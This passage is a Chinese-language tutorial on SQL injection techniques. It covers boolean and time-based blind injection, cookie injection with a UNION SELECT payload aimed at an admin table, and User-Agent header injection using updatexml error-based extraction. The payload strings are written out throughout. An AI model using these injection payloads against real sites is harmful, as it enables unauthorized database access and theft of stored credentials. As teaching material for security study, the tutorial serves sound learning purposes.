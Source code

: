 ## 2.盲注
## (1)布尔注入
盲注和显错注入的区别就是没有回显点。即我们要通过判断的方式，去查询相关数据内容
用到的函数：
```
length(database()) # 查询的是【当前数据库库名】的长度。
length(database())=2  --> 无查询数据 --> 当前数据库的库名不是2个字符

substr(字符串,m,n)  # 函数，作用是截取。
substr('cmd',1,1) #  --> 截取的是 c 
substr(database(),1,1)  # 截取【当前数据库库名】的第一个字符。
and substr(database(),1,1)='a' --> 页面无内容--> 说明当前数据库库名第一个字符不是a
```
```
and substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1,1) = 'a' --> 第一个字符不是a
```
## (2)时间注入
以上均为布尔盲注，还有一种时间盲注，需用到sleep(),这个函数能让网页延迟显示
```
and sleep(5) # 网站延时了5秒再显示。
if(length(database())=12,sleep(5),1) --> 网站延迟显示5秒，说明判断条件是对的-->当前数据库库明的长度是12
```
可见，盲注很费时间。由此诞生了专门针对数据库注入漏洞的sqlmap工具。
## 3.cookie注入
在Cookie处进行注入。

当你使用Cookie进行传参的时候 ，传参的值一定要进行URL编码的。
默认浏览器是会URL编码的。  空格--> %20

如果用的数据库是ACCESS，语法比较正规(select后一定要有from即要先找到一个表名)
`b9a2a2b5dffb918c -> md5解码-> welcome`
```
escape() # 函数，作用：进行URL编码
document.cookie = "id=" + escape("171 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin")
```

## 4.head注入
HEAD注入条件是知道用户名密码或登录状态

网络中web访问是以IP数据包形式传输数据，每个数据包由头部（head）和数据体（body）组成，head中有访问者的各种信息。

有的网站他会为了保存我们的信息作为比对会把head头中的信息保存到数据库中以便下一次使用。通讯时我们若能抓到请求数据包，并将头部中身份信息修改则为HEAD注入。抓包实例如下（使用burp）

就像图中User-Agent本意是表示你是哪种访问方式例如苹果、微软、安卓、华为等等，图中我把他的值更换为了一个注入语句，并报错就返回了我关心的结果。

```
updataxml或extractvalue #报错函数 head注入是通过引起报错，来返回需要的信息，所以不需要回显点
concat
```
下面详细讲解UPDATEXML (XML_document, XPath_string, new_value);
```
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串)<--有特定要求格式
第三个参数：new_value，String格式，替换查找到的符合条件的数据
作用：改变XML_document文档中符合XPATH_string的值
```
注入语句为
```
updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```
其中的concat()函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出错误`ERROR 1105 (HY000): XPATH syntax error: '得到的数据'`